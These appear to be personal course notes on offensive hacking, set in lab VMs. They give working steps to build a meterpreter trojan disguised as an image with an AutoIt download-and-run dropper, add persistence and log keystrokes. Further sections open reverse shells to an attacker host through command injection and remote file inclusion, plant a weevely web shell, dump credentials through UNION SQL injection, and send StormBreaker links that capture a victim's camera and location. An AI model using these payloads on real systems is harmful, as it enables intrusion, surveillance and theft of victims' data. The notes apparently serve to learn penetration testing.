

**Post Exploitation** 

How to create a trojan and then hide it in an image so that we can access a victim's computer. 

Making the trojan with MSFVenom:
```sh
sudo msfvenom -p windows/meterpreter/reverse_tcp --platform windows -f exe LHOST=<attacker-ip> LPORT=4444 -o /home/payloads/payload.exe
```
- If you wanted to use this on an external network you would add an external IP (public IP) and then setup port forwarding. in your router. 

Chat GPT or Bito (VSCode) code to download and execute a file:
```C
#include <StaticConstants.au3>
#include <WindowsConstants.au3>

Local $urls = "url1,url2"

Local $urlsArray = StringSplit($urls, ",", 2)

For $url in $urlsArray
	$sFile = _DownloadFile($url)
	shellExecute($sFile)

Next

Func _DownloadFile($sURL)
	Local $hDownload, $sFile
	$sFile = StringRegExpReplace($sURL, "^.*/", "")
	$sDirectory = @TempDir & $sFile
	$hDownload = InetGet($sURL, $sDirectory, 17, 1)
	InetClose($hDownload)
	Return $sDirectory
EndFunc    ;==>_GetURLImage
```
- Name the file `autoit-file.txt`. When completed give it the extension `.au3`
- Add the URL as: `http://<attacker-ip>/payloads/image.jpg` and `http://<attacker-ip>/payloads/payload.exe`. Copy and paste the files path into the kali browser to make sure you have entered the correct path to file.
- Keep the Trojan and AutoIt file in the same location
- You can now use a tool, that was installed with Veil, to change the AutoIt file into an exe file. The tool is called: `Compile Script to .exe`


_AutoIt is a freeware programming language for Microsoft Windows. In its earliest release, it was primarily intended to create automation scripts for Microsoft Windows._

Add an icon to the file using an online website. Add the AutoIt file as the source. Compile for system x64 by ticking the box. Make the icon out of the same JPEG image that we used for the script, that way when it opens it just shows the same image as the icon. 

Open msfconsole and start a listener:

```sh
msfconsole
```

```sh
use exploit/multi/handler/reverse_tcp
```

Set Options and exploit to start the listener.

We can then test this by downloading the new file from our Windows VM. When the file is ran you'll receive a meterpreter session. 

---

**File control in meterpreter**

Upload file
```sh
upload example.png
```

Delete file
```sh
del example.png
```

Download file from victim's PC
```sh
download stolen-file.txt
```

Read sensitive files
```sh
cat passwords.txt
```

**Other meterpreter commands**

Drop into a normal shell
```sh
shell
```

Capture keyboard 
```sh
keyscan_start
```

Dump data from keyscan
```sh
keyscan_dump
```

Take screenshot
```sh
screenshot
```

---

**Create a More Sustainable Session**

Background the meterpreter session
```sh
background
```

Restore session
```sh
sessions <id>
```

After we background the session we can use a persistence module
```sh
use exploit/windows/local/persitence
```
- May need to set payload before this step 

Set options
```sh
options
```

```sh
set EXE_NAME windowsexplorer.exe
```

Set which session to use
```sh
set SESSION 1
```

Show advanced settings 
```sh
show advanced
```

Set custom exe
```sh
set EXE::Custom /<path-to-file>
```
- Here i would use: `/var/www/html/payloads/payload.exe`

Run the exploit
```sh
exploit
```

If we go back into the muli-handler and restart the computer, the listener should get a session back if the victim's PC is restarted.

It could take a few minutes for it to work. There is a way to hide our malicious process but i'll have to add in this later when i get on Kali and experiment with the course content.

---

**Ethical Hacker's Blueprint - Road to Success**

Six Phases: 
1. Reconnaissance
2. Scanning
3. Identifying Vulnerabilities
4. Gaining Access
5. Maintaining Access
6. Reporting

Reconnaissance:
1. Gathering Information Passively
2. Open Source Research

Scanning:
1. Active Information Gathering (nmap, nesus, netdiscover)

Identifying Vulnerabilities:
1. Analyse Scan Results and Search for Possible Vulnerabilities
2. Search Within Vulnerability Databases 
3. Attention to Details, OS Versions, Fixes, Patches, Open Ports etc

Gaining Access:
1. Gaining Access Using Previously Identified Vulnerabilities
2. Metasploit
3. Opening Sessions

Maintaining Access:
1. Sustaining the Session
2. Persistence
3. Migration (migrate processes)

Reporting:
1. Deleting Logs
2. Preparing Reports
3. Presenting Reports
 ---

**Advanced Information Gathering**

Tools: netcraft https://www.netcraft.com/

Netcraft will scan website URLs and provide a report. Enter the URL where it asks **What's that site running?** 

Provides the following information:
- Background
- Network
- IP details
- IP geolocation
- SSL/TLS
- And more useful information

Website crawlers:
dirb
gobuster

```sh
dirb <URL>
```

_These tools are covered in other sections of this obsidan file._

---

**Remote Code Execution (RCE)**

DVWA login credentials
Username: admin
Password: password

We can use the metasploitable VM to test this in the DVWA website. Here, under command execution, it allows the user to use the ping command. If we add a `;` after entering a ping command the bash shell will do another command of our choice.
For example:

```sh
google.com; ls
```

You can see that it executes both commands. You could easily get the system to execute a reverse shell, or search for sensitive files etc.

Start netcat on the Kali machine
```sh
nc -l -v -p 4444
```
- l - Listen
- v - verbose

On the DVWA site
```sh 
google.com; nc -e /bin/bash <attacker-ip> 4444
```
- e - Executes a shell (can also use sh)

Gather some basic info:
```sh
whoami
id
uname -a
```

**Upload Vulnerability**

You can upload a reverse shell. You can then navigate to the file which will execute the code. You need to have your listener ready to catch the shell.

I like to use PentesterMonkey Reverse PHP shell located in Kali > exploits > PHP. Here is some of his other shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

We can also use tools like weevely:
```sh
sudo weevely generate 12345 /home/kali/shell.php
```
- 12345 - Attacker defined password
- /shell.php - Desired file location (would be put into the root directory)
- weevely seemed to have an issue looking for a module `telnetlib` and didn't work

The DVWA site gives you the exact location of where it stored our file but in a real website you would have to discover it yourself. You could look up what the site is running and then look online for possible default locations of stored upload files, for example.

You might get a blank screen but as long as it's not a `404` page should be okay. It just means that the website doesn't show anything for your PHP file.

Once you have the file location you can interact with it, again, using weevely.
```sh
weevely http://<website-url>/dvwa/hackable/uploads/shell.php 12345
```

You should get back a weevely shell. Type help to see a list of commands. You can also use standard Linux commands.

**File Inclusion Vulnerability**

If the website is using a GET request we can use it to access files that we wouldn't normally be able to access, like the `/etc/passwd` 

```sh
http://<website-ip>/dvwa/vulnerabilities/fi/?page=../../../../../etc/passwd 
```
- I'm using the website IP here because that's what the DVWA site looks like, otherwise you would just use the normal address. 
- We're also utilising directory traversal `../../`



**Include Vulnerability**

On the meatasploitable server we can check the `php.ini`file:
```sh
nano /etc/php5/cgi/php.ini
```
- We are looking for `allow_url_include = ON` 
- You can search in Nano by using `CTL+W <string> Enter`
- Search for `allow_url`

Creating a pass-through function.php on Kali to grab from the dvwa site:
```php
<?php
passthru("nc -e /bin/bash <attacker-ip> 4444");
?>
```
- Now move the file to the Kali server `/var/www/html/file.txt`
- In the URL of dvwa we can add a `?` to make the file run as php

Make sure your Kali server is running so dvwa can get the file:
```sh
sudo service apache2 start
```

Now on the dvwa site we can modify the url to look like this:
```sh
http://<website-ip>/dvwa/vulnerabilities/fi/?page=http://<attacker-ip>/file.txt?
```
- You might need to add a `?` at the end of the URL so the website runs the PHP code.
- It may be required to turn it from a PHP file to a text file depending on what the server accepts, in that case you would need the `?`

Start a listener:
```sh
nc -l -v -p 4444
```

Now use the URL on the DVWA website to hopefully get the reverse shell.

---

**Managing and Manipulating MySQL**

What is MySQL?
MySQL, is the most popular open-source relational database management system.

Opening MySQL on the metasploitable machine:
```sh
mysql -u root
```

Connecting to a different machine's MySQL
```sh
mysql -u <username> <ip>
```

View databases
```sh
show databases
```

View row
```sh
use owasp10;
```

View tables
```sh
show tables;
```

View table
```sh
select * from accounts; 
```
- * - Everything

insert an entry into accounts
```sh
insert into accounts (usrername,password,mysignature) values("bob","pass123","test signature");
```
- It will display that the query is okay if everything was entered correctly.

Check the added entry
```sh
select * from accounts;
```

Delete the added entry using the `cid` number
```sh
delete from accounts where cid = 18;
```

How to update data
```sh
update accounts set username = "bob", password = "set123" where cid = 15;
```

Check entry
```sh
select * from accounts;
```

List specific parts of a table
```sh
selesct username from accounts;
```

List both username and password
```sh
select username,password from accounts;
```

List the admin password
```sh
select password from accounts where username = "admin";
```

What would a login look like?
```sh
select * from accounts where user = "admin" and password = "adminpass";
```
- This would login the admin user, but if one of the conditions was not true, like the password, you wouldn't be allowed to login.
- AND is asking "is this condition also true?"

What SQL injection would look like
```sql
select * from accounts where user = "adminSQL" and password = "adminpass" and 1 = 1;
```

If the database is very large you might have issues with `SELECT *` so you can narrow it down in these situations.
```sql
select username,password from accounts;
```

Using `ORDER BY`
```sql
select * from accounts order by cid;
```
- You can modify the table view by using either `asc` or `desc` after `cid`.
- You can order by anything else such as username.

```sql
select username,password from accounts order by username;
```

How a hacker uses order by to determine the amount of entries
```sql
select * from accounts where username = "admin" and password = "adminpass" order by 1;
```
- We know that the database on metasploitable currently has 16 rows in accounts so this command would work, but if you tried using 17 or more it would return an error.

Union 

Again, we'll use the metasploitable machine for this testing.

```sh
mysql -u root
```

```sh
show databases
```

```sh
use owasp10;
```

```sh
show tables;
```

```sh
select * from accounts;
```

View credit card infpmation
```sh
selsct * from credit_cards;
```

Pull data from more than one table with `UNION`
```sh
select usernames from accounts union select ccnumber from credit_cards;
```

Information Schema

Information_schema has all the tables from the other databases.

How to get the table names form information schema
```sh
select table_name from information_schema.tables;
```

---

**SQL Injection**

Here we are using Metasploitable - Mutillidae Website. You might be able to notice, on the left, the owasp10 table that we have been practising on. 

Make a user account. If you get an error go into the server and cd into `/var/www/mutillidae`. Then nano open the file `config.inc` and change the database name ($dbname) to owasp10.. 

You can remove the last part of the URL leaving just the website name, then click refresh to re-send the user register details. 

Check the Metasploit server to see if MySQL has saved the user:

```sql
mysql -u root
```

```sql
show databases;
```

```sql
use owasp10;
```

```sql
show tables;
```

```sql
select * from accounts;
```

How to delete the account if you want to:
```sql
delete from accounts where username = "user";
```
- You can use the `cid` if you want to.

If you deleted the account, make another one filling in all the options. Now we can try some SQL Injection.

It's a good idea to crat your SQL payloads in a text editor because it will show you if you've typed something wrong, and it's easier to copy and paste from it. 

We start by adding a single quote to the password field:
Name: username
Password: '

The error should appear above the login fields.

You should try this single quote in all of the fields to see if any of them are vulnerable to SQL injection.

If the website returns an error then it's vulnerable to SQL injection. It does this because in the database it breaks the SQL command. Most modern websites will not reveal any error information but you can use a sleep command, for example, to see if the webpage hangs (freezes) 

Simple SQL payload attacking the password field:
```sql
<user-password>' and 1=1#
```
- This tells you if the website allows you to use SQL or not.

Switch the website to Owasp top 10 >  A1 - Injection > SQL - Extra Data > User Info and add the user details that you made into the fields. It will change the URL to match what you entered in a URL format. Try changing the username to see what happens!

This is called the GET method. I think you can run curl on the site and it will tell you if GET is allowed or not. If it's POST you will not be able to see it in the URL.

URL after entering the correct data
```url
http://10.0.3.5/mutillidae/index.php?page=user-info.php&username=bill&password=P%40ssw0rd&user-info-php-submit-button=View+Account+Details
```

To find out if you can use SQL we can add something to the URL to check, for example after the username add:
```sql
' order by 1 %23
```
- %23 - URL encoded version of #
- The comment tells the site to ignore everything after it and sees it as a comment.
- You could also find out how many columns are in the table using this method, you would keep increasing the order number until it returns an error.

Payload
```url
http://10.0.3.5/mutillidae/index.php?page=user-info.php&username=bill' order by 1 %23&password=P%40ssw0rd&user-info-php-submit-button=View+Account+Details
```
- Shows if you can use SQL injection or not

Taking a break here because i can't get the sql to work and it looks like it's using the wrong database even though i updated it in the `config.inc`. After restarting the servers it seems as if it's working now. This time i'm not logged in. I was in the wrong area which is why this didn't work the first time.

**User Info**

 Continuing from Owasp top 10 >  A1 - Injection > SQL - Extra Data > User Info

I get the admin details with:
username: admin
password: adminpass

I add a `\` in the username field which throws an error and provides the logic of the database:
```sql
SELECT * FROM accounts WHERE username='\' AND password=''
```

Retrieving all of the accounts details:
```sql
' or 1=1 #
```

What this would look like:
```sql
SELECT * FROM accounts WHERE username='' or 1=1 # AND password=''
```

**Bypass Authentication**

**Make sure you're in the correct area, as follows:**
Owasp top 10 >  A1 - Injection > SQL > Bypass Authentication > Login

Again, i can use the backslash character `\` to find out the logic. Here i can use the same payload to login as the admin account.

```sql
' or 1=1 #
```

In this section i get `order by` to work correctly. It throws an error at 6.

Payload:
```sh
http://10.0.3.5/mutillidae/index.php?page=user-info.php&username=admin%27%20order%20by%206%23&password=adminpass&user-info-php-submit-button=View+Account+Details
```
- %20 - URL encoded space character

Error results:
```sql
SELECT * FROM accounts WHERE username='admin' order by 6#' AND password='adminpass'
```

**Terminology:**
A table is a collection of rows having one or more columns. A row is a value of a row type. Every row of the same table has the same row type. **The value of the i-th field of every row in a table is the value of the i-th column of that row in the table**. The row is the smallest unit of data that can be inserted into a table and deleted from a table.

I'll add a screenshot here of the table from the Metasploitable server, when i get on it, because it might be easier to see what is happening and what is meant by the different terminology. 


Using union select instead of order
```sql
' union select 1,2,3,4,5 %23
```

We can use the results to modify the request and gain additional information
```sql
' union select 1,database(),user(),version(),5 %23
```
- %20 - URL encoded version of a space in the URL field

Payload:
```sh
http://10.0.3.5/mutillidae/index.php?page=user-info.php&username=admin%27%20%20union%20select%201,database(),user(),version(),5%23&password=adminpass&user-info-php-submit-button=View+Account+Details
```

Output:
```sh
Username=admin  
Password=adminpass  
Signature=Monkey!  

Username=owasp10  
Password=root@localhost  
Signature=5.0.51a-3ubuntu5
```

Retrieving table names
```sql
' union select 1,table_name,null,null,5 from information_schema.tables
```

Retrieving a specific table
```sql
' union select 1,table_name,null,null,5 from information_schema.tables where table_schema = "owasp10"
```
- Using the result from the database command `database()` which in this case was owasp10.

Select specific column names
```sql
' union select 1,column_name,null,null,5 from information_schema.columns where table_name = "accounts"
```

Retrieve the sensitive data 
```sql
' union select 1, username,password,is_admin,5 from accounts
```
- I've left the URL comment `%23` out of the last few payloads so make sure to leave it in the URL while going through these steps.

Payload:
```sh
http://10.0.3.5/mutillidae/index.php?page=user-info.php&username=admin%27%20%20union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=adminpass&user-info-php-submit-button=View+Account+Details
```

How to read files
```sql
' union select null,load_file("/ect/passwd"),null,null,null
```

How to writes files
```sql
' union select null, "some text", null,null,null into outfile "/tmp/some-text-file.txt"
```
- Usually it doesn't allow you to write files but it's worth checking.

---

**SQLMap - Automatic SQL Injection Tool** 

Start sqlmap by typing the name in a Kali terminal. or attack the site by providing it the URL:
```sh
sqlmap -u <"URL">
```
- You want to enter the full path to what you want it to attack, for example the login page.

Get a list of commands
```sh
sqlmap --help
```

Run a scan for everything it can find
```sh
sqlmap -u <"URL"> -a
```
- This tool is covered, in depth, in other sections of this obsidian file.

Retrieve databases
```sh
sqlmap -u <"URL"> --dbs
```

Retrieve tables using one of the database names found in the previous command
```sh
sqlmap -u <"URL"> --tables -D owasp10
```

View account table
```sh
sqlmap -u <"URL"> --colums -D owasp10 -t accounts
```

Dump the column information
```sh
sqlmap -u <"URL"> -D owasp10 -t accounts --dump
```

---

**Mobile Penetration Testing - Accessing Location, Microphone, and Camera**

Tools: StormBreaker https://github.com/ultrasecurity/Storm-Breaker

Start stormbreaker after following the installation guide on github. I wont add the installation steps since they may change over time.
```sh
sudo python3 st.py
```

This tool requires ngrok to be installed which you can find online. Unfortunately, you have to make an account to authenticate. On the setup and installation tab it gives you a an authtoken for your config file. Now you can open the ngrok command that stormbreaker gives you in a new terminal tab.

The login details for the admin panel for ngrok is: admin/admin

The links that it provides are designed for you to send to the victim hoping they will use them and allow access to the ngrok app. 

For example, if you sent the camera link, it will start to capture and the images will be stored in the stormbreaker folder `/opt/storm-breaker/storm-web/images` 

Always store your 3rd party tools in `/opt`

The location link, if clicked, gives you googlemaps that you can paste into the browser to show the phones location.

**Completed:** _2025-04-02_
